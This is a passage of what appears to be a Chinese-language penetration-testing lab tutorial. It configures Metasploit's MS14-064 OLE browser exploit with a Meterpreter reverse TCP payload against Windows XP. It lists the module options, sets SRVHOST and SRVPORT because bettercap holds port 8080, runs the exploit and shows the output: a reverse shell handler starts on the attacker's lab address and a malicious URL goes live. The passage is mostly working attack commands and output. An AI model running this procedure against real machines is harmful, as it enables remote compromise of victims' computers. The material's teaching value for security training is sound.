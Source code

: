```txt
Module options (exploit/windows/browser/ms14_064_ole_code_execution):

   Name                   Current Setting  Required  Description
   ----                   ---------------  --------  -----------
   AllowPowershellPrompt  false            yes       Allow exploit to try Powershell
   Retries                true             no        Allow the browser to retry the module
   SRVHOST                0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT                8080             yes       The local port to listen on.
   SSL                    false            no        Negotiate SSL for incoming connections
   SSLCert                                 no        Path to a custom SSL certificate (default is randomly generated)
   TRYUAC                 false            yes       Ask victim to start as Administrator
   URIPATH                                 no        The URI to use for this exploit (default is random)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.101.15   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows XP
```

一般来讲我们只需要设置一个 `SRVHOST` 就可以了，但是刚刚 `bettercap` 把 `8080` 端口给占用了，因此我们需要重新设置一个 `SRVPORT`。

`SRVHOST` 设置为攻击机的地址
```txt
set SRVHOST 192.168.101.15
```

`SRVPORT` 任意指定一个空闲的端口
```txt
set SRVPORT 9999
```
执行
```txt
exploit
```
接下来我们得到了
```txt
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.101.15:4444 
[*] Using URL: http://192.168.101.15:9999/deCFhCIwXNHYT
[*] Server started.
```
